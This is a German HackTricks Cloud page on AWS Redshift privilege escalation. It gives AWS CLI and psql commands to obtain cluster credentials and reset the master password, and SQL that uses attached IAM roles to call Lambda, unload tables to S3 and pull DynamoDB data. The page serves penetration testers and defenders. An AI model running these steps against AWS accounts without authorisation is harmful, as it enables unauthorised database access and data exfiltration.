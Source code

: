 # AWS - Redshift Privilegieneskalation

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositorys einreichen.

</details>

## Redshift

Für weitere Informationen zu RDS siehe:

{% content-ref url="../aws-services/aws-databases/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-databases/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Mit diesen Berechtigungen können Sie **Informationen zu allen Clustern** (einschließlich Name und Cluster-Benutzername) abrufen und **Anmeldeinformationen** zum Zugriff darauf erhalten:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Potenzielle Auswirkungen:** Sensible Informationen in den Datenbanken finden.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Mit diesen Berechtigungen können Sie **Informationen zu allen Clustern** abrufen und **Zugangsdaten** zum Zugriff darauf erhalten.\
Beachten Sie, dass der postgres-Benutzer die **Berechtigungen hat, die die IAM-Identität** hat, die zum Abrufen der Zugangsdaten verwendet wurde.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**Potenzielle Auswirkungen:** Sensible Informationen in den Datenbanken finden.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

Es ist möglich, das **Hauptpasswort des internen Postgres (Redshift) Benutzers** über die AWS CLI zu ändern (Ich denke, dass dies die erforderlichen Berechtigungen sind, aber ich habe sie noch nicht getestet):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**Potenzielle Auswirkungen:** Finden sensibler Informationen in den Datenbanken.

## Zugriff auf externe Dienste

{% hint style="warning" %}
Um auf alle folgenden Ressourcen zuzugreifen, müssen Sie die **zu verwendende Rolle angeben**. Ein Redshift-Cluster **kann eine Liste von AWS-Rollen zugewiesen haben**, die Sie verwenden können, **wenn Sie die ARN kennen**, oder Sie können einfach "**default**" festlegen, um die standardmäßig zugewiesene Rolle zu verwenden.

Darüber hinaus erlaubt Redshift auch, wie [**hier erklärt**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Rollen zu verketten (solange die erste die zweite annehmen kann), um weiteren Zugriff zu erhalten, indem Sie sie einfach mit einem **Komma trennen**: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Lambdas

Wie in [https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html) erklärt, ist es möglich, **eine Lambda-Funktion von Redshift aus aufzurufen** mit etwas wie:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

Wie in [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html) erläutert, ist es möglich, **in S3-Buckets zu lesen und zu schreiben**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

Wie in [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html) erläutert, ist es möglich, **Daten aus DynamoDB abzurufen**:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
{% hint style="warning" %}
Die Amazon DynamoDB-Tabelle, die die Daten bereitstellt, muss in derselben AWS-Region wie Ihr Cluster erstellt werden, es sei denn, Sie verwenden die [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region)-Option, um die AWS-Region anzugeben, in der sich die Amazon DynamoDB-Tabelle befindet.
{% endhint %}

### EMR

Überprüfen Sie [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## Referenzen

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
